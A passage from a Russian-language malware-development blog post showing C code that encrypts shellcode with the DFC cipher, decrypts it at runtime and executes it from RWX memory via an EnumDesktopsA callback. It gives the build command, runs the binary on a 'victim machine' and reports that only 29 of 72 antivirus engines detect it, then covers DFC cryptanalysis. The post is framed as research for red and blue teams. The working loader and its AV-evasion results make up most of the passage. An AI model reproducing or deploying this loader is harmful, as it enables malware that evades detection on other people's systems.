  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Как обычно, некоторая логика вывода используется только для проверки корректности работы и запуска полезной нагрузки через [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html).      

### Демонстрация

Давайте посмотрим, как это работает на практике. Скомпилируем код (на моей `linux` машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем просто запустите его на машине жертвы (`windows 11 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}      

{width="80%"}      

Как видите, все работает идеально! =^..^=    

Вычисление энтропии по Шеннону:    

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}      

Наш полезный код находится в `.text` секции.    

Сканирование с помощью антивирусного сканера:     

{width="80%"}      

{width="80%"}      

[https://websec.net/scanner/result/8d7862b2-dbba-48bb-924c-a3694cac3269](https://websec.net/scanner/result/8d7862b2-dbba-48bb-924c-a3694cac3269)      

Загрузка на VirusTotal:     

{width="80%"}      

[https://www.virustotal.com/gui/file/9d702d3194ef3a6160f9ab7f6b30ebaae92c365fa4c12368c7e9ec589ebbe1fd/detection](https://www.virustotal.com/gui/file/9d702d3194ef3a6160f9ab7f6b30ebaae92c365fa4c12368c7e9ec589ebbe1fd/detection)

**Как видно, только 29 из 72 антивирусных движков обнаружили наш файл как вредоносный.**     

Интересный результат.       

Как вы знаете, [многие](https://cocomelonc.github.io/malware/2023/03/09/malware-av-evasion-13.html) из алгоритмов шифрования, которые я [изучал](https://cocomelonc.github.io/malware/2023/08/28/malware-cryptography-20.html) в своем [исследовании](https://cocomelonc.github.io/malware/2023/11/23/malware-cryptography-22.html) и в этом [блоге](https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html), используют сети Фейстеля.      

### Криптоанализ

Криптоанализ Decorrelated Fast Cipher (DFC) выявил уязвимости в его структуре, особенно при дифференциальном анализе. В 1999 году криптографы Ларс Кнудсен и Винсент Раймен (*Lars R. Knudsen and Vincent Rijmen. "On The Decorrelated Fast Cipher (DFC) and Its Theory". Department of Informatics, University of Bergen, N-5020 Bergen. 24 March 1999. 6th International Workshop on Fast Software Encryption (FSE '99). Rome: Springer-Verlag. pp. 81–94*) обнаружили, что `8`-раундовая структура DFC может быть ослаблена с помощью дифференциальных атак. В их работе было показано, что дифференциальная атака может успешно взломать `6` из `8` раундов DFC, используя уязвимость шифра к различиям, возникающим в отдельных частях раундов Фейстеля. Эта атака выявила слабые стороны в диффузионных свойствах DFC, что указывает на то, что, несмотря на участие в конкурсе AES, DFC оказался менее устойчивым к криптоаналитическим методам по сравнению с некоторыми другими кандидатами.     

Надеюсь, этот пост окажется полезным для исследователей вредоносного ПО, программистов на C/C++, повысит осведомленность синих команд о данной интересной технике шифрования и пополнит арсенал красных команд.      

[https://en.wikipedia.org/wiki/DFC_(cipher)](https://en.wikipedia.org/wiki/DFC_(cipher))     
[On The Decorrelated Fast Cipher (DFC) and Its Theory. Lars R. Knudsen and Vincent Rijmen](https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=2f58280af84f265c65f42d0799a6ca5f9ed620fd)      
[Malware And Hunting For Persistence: How Adversaries Exploit Your Windows? - Cocomelonc. HACKLU 2024](https://www.youtube.com/watch?v=gW8v270HjxI)     
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-11-10-malware-cryptography-34)    
